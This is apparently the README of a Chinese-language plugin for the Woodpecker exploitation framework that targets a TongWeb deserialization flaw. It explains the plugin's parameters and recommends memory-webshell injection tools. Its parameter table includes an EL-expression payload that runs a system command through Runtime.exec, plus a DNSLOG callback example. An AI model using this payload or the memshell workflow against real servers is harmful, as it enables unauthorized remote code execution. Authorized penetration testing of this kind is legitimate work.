

# TongWeb Plugin

这是一个用于 **啄木鸟漏洞利用框架**（Woodpecker Framework）的 **TongWeb 反序列化漏洞插件**。  
将插件直接放入 Woodpecker 项目的 `plugin` 目录下即可使用。

> ⚠️本项目仅用于 **安全研究与学习**，禁止任何未授权渗透与非法用途！

---

## ✨ 功能说明

用于测试 TongWeb 中反序列化利用链，可通过不同 Gadget 达到 DNS 回显或内存马注入效果。  
可配合以下项目进行后续控制：

- MemShellParty：https://github.com/ReaJason/MemShellParty
- JMG (Java Memshell Generator)：https://github.com/pen4uin/java-memshell-generator

---

## 🔧 使用方法

在啄木鸟项目中选择此插件并填写以下参数 👇

| 参数名称 | 说明 | 示例                                                                                                |
|--------|-----|---------------------------------------------------------------------------------------------------|
| `version` | TongWeb 版本<br>老版本使用 `1`，新版本使用 `2`（推荐都试一下） | `1` / `2`                                                                                         |
| `gadget` | 选择利用方式<br>支持 `DNSURL` 和 `XBeans` | `DNSURL` / `XBeans`                                                                               |
| `param` | Gadget 对应的参数<br>- `DNSURL` 时填写 DNSLOG 地址<br>- `XBeans` 填写 EL 表达式 | `http://xxxx.dnslog.cn` 或 `${''.getClass().forName('java.lang.Runtime').getRuntime().exec('id')}` |

⚠️ EL 表达式请根据实际情况替换

---

## 📌 Gadget 使用说明

| Gadget | 用途 | 参数示例 |
|--------|------|---------|
| `DNSURL` | DNS 回显测试漏洞是否触发 | `http://example.dnslog.cn` |
| `XBeans` | 执行 EL 表达式，可搭配内存马注入工具使用 | `${payload}` |

推荐搭配 memshell 工具注入内存马：
```
MemShellParty : https://github.com/ReaJason/MemShellParty
Java Memshell Generator : https://github.com/pen4uin/java-memshell-generator
```

## 📁 使用步骤

1. Clone 或下载该插件

2. 将插件文件复制到 `woodpecker/plugin/` 目录下

3. 启动啄木鸟，选择对应插件

4. 填入参数并执行测试

   

---

## ⚠️ 法律及风险声明

本项目 **仅限合法授权范围内使用**：

- 用于个人学习与研究
- 用于授权测试与安全检查

严禁用于：

❌ 未授权系统入侵  
❌ 商业非法利用  
❌ 破坏他人数据与服务

开发者对任何违法使用不承担责任，请自觉遵守当地法律法规！

---

## ❤️ 支持与交流

如果你觉得有帮助，欢迎 Star ⭐ 这对我很重要  
仅供安全研究人员交流学习，感谢理解！

---
## 致谢

https://github.com/unam4/java_gadget_flow

---
